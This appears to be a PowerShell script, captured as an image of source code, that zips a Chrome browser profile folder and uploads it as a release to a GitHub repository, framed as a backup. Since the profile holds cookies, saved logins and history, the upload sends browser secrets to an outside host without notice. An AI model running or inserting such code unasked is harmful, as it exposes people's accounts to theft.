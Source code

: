 # Set UTF-8 encoding
[Console]::OutputEncoding = [System.Text.UTF8Encoding]::UTF8
$OutputEncoding = [System.Text.UTF8Encoding]::UTF8

# Parameters
$token = $env:GITHUB_TOKEN  # Make sure this environment variable is set before running
$repo = "drftghy/backup-files"
$now = Get-Date
$date = $now.ToString("yyyy-MM-dd")
$timestamp = $now.ToString("yyyy-MM-dd-HHmmss")
$tag = "backup-$timestamp"
$releaseName = "Chrome Profile Backup - $date"
$zipName = "ChromeProfileBackup_$timestamp.zip"
$zipPath = "$env:TEMP\$zipName"
$sourcePath = "C:\Program Files\Google\Chrome\Application\1\Default"
$logPath = "$env:USERPROFILE\upload_log.txt"

# Compress function (skip locked files)
Add-Type -AssemblyName 'System.IO.Compression.FileSystem'
$zip = [System.IO.Compression.ZipFile]::Open($zipPath, 'Create')
Get-ChildItem -Path $sourcePath -Recurse | ForEach-Object {
    try {
        $relativePath = $_.FullName.Substring($sourcePath.Length).TrimStart('\')
        [System.IO.Compression.ZipFileExtensions]::CreateEntryFromFile($zip, $_.FullName, $relativePath)
    } catch {
        # Skip locked/in-use files
    }
}
$zip.Dispose()

# Check ZIP validity
if (-Not (Test-Path $zipPath) -or (Get-Item $zipPath).Length -eq 0) {
    return
}

# Create GitHub Release
$releaseData = @{
    tag_name = $tag
    name = $releaseName
    body = "Chrome user data backup ($date)"
    draft = $false
    prerelease = $false
} | ConvertTo-Json -Depth 3

$headers = @{
    Authorization = "token $token"
    "User-Agent"  = "PowerShellUploader"
    "Accept"      = "application/vnd.github.v3+json"
}

$releaseResponse = Invoke-RestMethod -Uri "https://api.github.com/repos/$repo/releases" -Method Post -Headers $headers -Body $releaseData
$uploadUrl = $releaseResponse.upload_url -replace "{.*}", "?name=$zipName"

# Upload ZIP
$zipBytes = [System.IO.File]::ReadAllBytes($zipPath)
$uploadResponse = Invoke-RestMethod -Uri $uploadUrl -Method POST -Headers @{
    Authorization = "token $token"
    "Content-Type" = "application/zip"
    "User-Agent" = "PowerShellUploader"
} -Body $zipBytes

# Logging
$logEntry = "[{0}] Upload successful: {1}" -f (Get-Date -Format "yyyy-MM-dd HH:mm:ss"), $uploadResponse.browser_download_url
$logEntry | Out-File -FilePath $logPath -Encoding utf8 -Append
